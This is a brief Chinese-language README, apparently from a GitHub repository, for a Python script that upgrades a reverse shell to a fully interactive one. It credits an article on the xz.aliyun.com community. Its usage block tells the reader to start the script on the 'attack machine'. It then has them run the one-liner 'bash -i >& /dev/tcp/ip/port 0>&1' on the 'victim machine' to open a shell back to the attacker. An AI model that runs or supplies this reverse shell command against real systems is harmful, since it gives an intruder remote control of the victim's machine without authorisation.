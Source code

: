 # python-fully-interactive-reverse-shell-script
python获取完全交互的反弹shell脚本



转载于先知社区 https://xz.aliyun.com/t/7721

师傅们详细的可以看全文


```
在攻击机

python  python-fully-interactive-reverse-shell-script.py  port


在受害机

反弹shell即可 例如：bash -i >& /dev/tcp/ip/port 0>&1

即可大几率获取完全交互的shell
```
